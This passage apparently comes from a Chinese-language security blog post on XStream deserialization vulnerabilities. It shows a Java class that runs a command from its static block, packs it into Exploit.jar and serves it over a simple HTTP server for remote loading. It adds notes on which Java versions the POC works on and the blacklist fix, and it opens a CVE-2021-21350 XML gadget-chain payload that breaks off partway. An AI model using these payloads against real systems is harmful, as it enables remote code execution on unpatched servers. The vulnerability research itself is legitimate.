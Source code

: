 构造一个有evil code的static代码块类，打包jar

```java
public class ExploitStaticCalc {
    static {
        try {
            Runtime.getRuntime().exec("open -a calculator.app");
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

```bash
jar cvf Exploit.jar ExploitStaticCalc.class
python -m SimpleHTTPServer 8000
```

参考【2】原文中有提到几点有意思的，这里就不复述了

1.  XStream 的outer-class
2.  匿名内部类
3.  不同java版本下ObservableList、ProtectionDomain的不同导致POC要做相应的修改

但是在测试的时候，8u60、8u172都失败，8u231成功。失败的报错事com.sun.tools.javac.processing.AnnotationProcessingError，判断应该是processorCL 结构问题，对比8u231跟踪到java.lang.ClassLoader#defineClass1，参数基本一样，但是loadClass失败，未排查到原因。

太菜鸡了。。。

### [](#黑名单：-4 "黑名单：")黑名单：

```java
om.sun.tools.javac.processing.JavacProcessingEnvironment$NameProcessIterator
denyTypeHierarchyDynamically("javax.activation.DataSource");
```

[](#CVE-2021-21350 "CVE-2021-21350")CVE-2021-21350
--------------------------------------------------

author: thread3am

### [](#POC-4 "POC")POC

```xml
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='javafx.collections.ObservableList$1'/>
    </default>
    <int>3</int>
    <com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data>
      <dataHandler>
        <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
          <contentType>text/plain</contentType>
          <is class='java.io.SequenceInputStream'>
            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
              <iterator class='com.sun.tools.javac.processing.JavacProcessingEnvironment$NameProcessIterator'>
                <names class='java.util.AbstractList$Itr'>
                  <cursor>0</cursor>
                  <lastRet>-1</lastRet>
                  <expectedModCount>0</expectedModCount>
                  <outer-class class='java.util.Arrays$ArrayList'>
                    <a class='string-array'>
```